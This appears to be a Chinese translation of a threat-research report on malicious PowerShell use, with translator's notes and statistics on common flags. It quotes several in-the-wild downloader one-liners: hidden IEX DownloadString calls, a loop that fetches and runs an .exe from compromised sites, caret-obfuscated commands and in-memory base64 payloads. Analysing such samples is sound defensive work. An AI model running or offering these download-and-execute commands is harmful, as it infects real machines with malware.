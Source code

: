 攻击者还可以直接调用外部函数，比如CreateThread或者丢弃批处理文件来执行它们（这句我也不是很懂）。例如，我们发现一个威胁用`System.Diagnostics.ProcessStartInfo`对象来创建一个新的后台进程。 
 
如前所述，powershell 可以用于从内存中直接加载和运行任何 pe 文件。多数脚本重用
ReflectivePEInjection 模块，这是在 2013 年推出，其中最长用的一个 payloads 是 dump 密码工具。 
下面的例子展示了常用的 powershell 下载者的调用，我们在野外遇到： 

```c
Powershell  –w  hidden  –ep     bypass  –nop    –c  “IEX    ((New-Object 
System.Net.Webclient).DownloadString(‘http://pastebin.com/raw/[REMOVED]’))” 
```

```c 
Powershell.exe –window hidden –enc KABOAG[REMOVED] 
```

```bash
Cmd.exe /C powershell $random = New-Object System. Random; Foreach($url in @({http://[REMOVED]academy. com/wp-content/themes/twentysixteen/st1.exe},{http:// [REMOVED].com.au/wp-content/plugins/espresso-social/ st1.exe},{http://[REMOVED].net/wp-includes/st1. exe},{http://[REMOVED]resto.com/wp-content/plugins/ wp-super-cache/plugins/st1.exe},{http://[REMOVED]. ru/wp-content/themes/twentyeleven/st1.exe})) { try { $rnd = $random.Next(0, 65536); $path = ‘%tmp%\’ + [string] $rnd + ‘.exe’; (New-Object System.Net. WebClient).DownloadFile($url.ToString(), $path);Start-Process $path; break; } catch { Write-Host$error[0].Exception } } 
```

> (译者注:上面这段代码意思是用 cmd 去调用 powershell，然后几个网址中下载 exe 文件，并且随机命名保存到本地，并执行，就是一个下载者吧) 
 
```c
cmd.exe /c pow^eRSheLL^.eX^e ^-e^x^ec^u^tI^o^nP^OLIcY^ ByP^a^S^s -nOProf^I^L^e^
-^WIndoWST^YLe H^i^D^de^N ^(ne^w-O^BJe^c^T^SY^STeM.Ne^T^.^w^eB^cLie^n^T^).^Do^W^nlo^aDfi^Le(^’http:// www. [REMOVED].top/user.php?f=1.dat’,^’%USERAPPDATA.eXe’);s^T^ar^T-^PRO^ce^s^S^ ^%USERAPPDATA%.exe 
```

>　(译者注:这段代码也是下载一个 exe 并且执行，但是用了大小写和插入格式符进行混淆) 
 
```c
Powershell.exe iex $env:nlldxwx  powershell.exe -NoP -NonI -W Hidden -Exec Bypass -Command “Invoke-Expression $(New-Object IO.StreamReader ($(New-Object IO.Compression. DeflateStream ($(New-Object IO.MemoryStream (,$([Convert]::FromBase64String(\”[REMOVED]\” )))),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd();” 
```

> (译者注:大概意思是将远程的 base64 编码过的 ps 代码中进行压缩传输保存在内存中并直接执行)   

```c 
powershell.exe -ExecutionPolicy Unrestricted -File 
“%TEMP%\ps.ps1” 
```

> (译者注:用 Unrestricted 不受限制的策略执行脚本文件) 
 
### PowerShell 威胁如何使用标志  

为了了解标志的使用频率，我们分析通过我们沙箱运行的脚本，我们发现有三分之一的样本设置了 NoProfile 标志。 

近一半(48%)的样品使用 “iex $env:randomname”,这是因为 Kotver 恶意软件在这段时间组成了许多分析样本。这个威胁家族用这个环境变量来隐藏命令行记录器中的脚本。 

23%的样本中使用了 DownloadFile 函数 在第一层。一些脚本使用了多层 Base64 编码，这
是没有计算在这个分析里。隐藏函数 DownloadString 仅仅在少于 1%的情况下使用。 
